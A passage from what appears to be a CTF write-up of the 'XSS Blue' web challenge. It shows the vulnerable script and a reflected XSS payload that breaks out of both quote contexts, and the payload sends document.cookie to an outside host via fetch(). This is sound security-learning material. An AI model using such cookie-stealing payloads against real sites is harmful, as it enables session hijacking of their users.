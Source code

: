 ### Conclusion

The challenge was a nice simple reflected XSS, if only I'd seen the query parameter 🤦‍♂️.

---

## XSS Blue (web - 250 points)

> Can you leak the admin's cookies?
>
> Author: mnz

We're basically presented with the exact same site as XSS Green, expect this time it's blue!
(and our input is injected into a slightly more annoying part of the script tag).

```js
function deadcode() {
  var params = {};
  params['noot'] = "your_input_here";
  params['doot'] = 'your_input_here';
}
```
Figure 6: *the script that our input gets inserted into.*

To approach this problem I started out with my working payload for XSS Green and started to
modify it. Initially I aimed to just get the payload working for the second string while
ignoring the first string. Then, since the two strings used different quotation marks I
could modify the payload so that it was basically a bunch of benign code when inserted into
the first string. It's hard to explain the process I used as it was essentially just
intuition, but the core idea is that by using the two types of quotes, the two insertion points
will interpret different parts of the input as syntax highlighting will show you below.

```js
";';} fetch(`https://backend.stackotter.dev:8000/?`+document.cookie);{ //'//
```
Figure 7: *my payload for XSS Blue.*

```js
function deadcode() {
  var params = {};
  params['noot'] = "";';} fetch(`https://backend.stackotter.dev:8000/?`+document.cookie);{ //'//";
  params['doot'] = '";';} fetch(`https://backend.stackotter.dev:8000/?`+document.cookie);{ //'//';
}

// Cleaning the code up a little makes things a bit more clear
function deadcode() {
  var params = {};
  params['noot'] = "";
  ';} fetch(`https://backend.stackotter.dev:8000/?`+document.cookie);{ //'
  params['doot'] = '";';
}
fetch(`https://backend.stackotter.dev:8000/?`+document.cookie);
{}
```
Figure 8: *the script after having the payload inserted into it.*
